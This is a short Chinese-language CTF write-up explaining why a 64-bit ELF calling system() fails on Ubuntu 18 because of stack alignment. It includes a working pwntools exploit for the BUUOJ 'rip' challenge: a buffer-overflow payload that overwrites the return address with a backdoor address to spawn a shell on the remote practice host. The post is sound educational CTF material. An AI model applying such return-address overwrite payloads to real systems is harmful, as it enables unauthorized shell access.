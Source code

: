 ```yaml
---
title: 「Pwn」Ubuntu18 中 64位 ELF 在调用 system 时候可能出现的问题
date: 2022-03-31
tags: ['Pwn', cheatsheet, CTF]
authors: [nova]

---
```


# Ubuntu18中64位ELF在调用system时候可能出现的问题

这几天配好了Ubuntu18，测试的时候出现了一个问题。

研究了好久才解决，记录一下。

[题目\__Buuoj__RIP](https://buuoj.cn/challenges#rip)

<!--truncate-->

### 问题

这题是最基础的一个栈溢出题。有后门函数直接`system("/bin/sh");`，什么保护都没开，直接把返回地址覆盖按理来说就可以了。

本地测试的时候也确实是这样的，但是远程却出现了问题。

于是我拿自己的Ubuntu18测试了一下，发现同样出现了错误。

一通搜索之后才发现，ubuntu18及以上的libc中，64位ELF程序调用system函数时候需要考虑堆栈平衡

### 解决方法

改变Payload的长度或者进行栈转移即可



主要思路就是改变栈的地址。

这里贴一下exp

```python
from pwn import *
context(log_level='debug', arch='amd64', os='linux')

# sh = process("./pwn1")
sh = remote("node4.buuoj.cn", 29726)

# sh.recvuntil('please input\n')

backdoor_addr = 0x0401186
# payload = b'a'*(0xf+8) + p64(backdoor_addr) # 正常思考，但是没有对齐所以会错误
# payload = b'a'*0xf + p64(backdoor_addr) # exp1, 但是稍微有点没看明白为什么这样可以:<
# payload = b'a'*(0xf+8) + p64(backdoor_addr) + p64(backdoor_addr - 1) # exp 2, 这里的backdoor_addr - 1对应了一个retn，换成其他的也可以，也是为了堆栈平衡
payload = b'a'*(0xf+8) + p64(backdoor_addr + 1) # exp 3, +1 让call_system函数中检查对齐的那个地址对齐0x10
"""
不一定是+1,最多16次肯定能对齐,还不行就栈转移吧www
"""
sh.sendline(payload)
sh.interactive()
```

### 深入

在这里我准备深入研究一下此时的堆栈，也算是gdb的初探门径

> 寄，Ubuntu18的gdb好像炸了。等修好了再补充:&lt;



## 参考博客

[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)

[ret2text涉及到的堆栈平衡问题](https://blog.csdn.net/qq_41560595/article/details/112161243)

[升级gcc7.3之后MOVAPS指令导致的程序coredump解决过程](https://www.pianshen.com/article/8326860581/)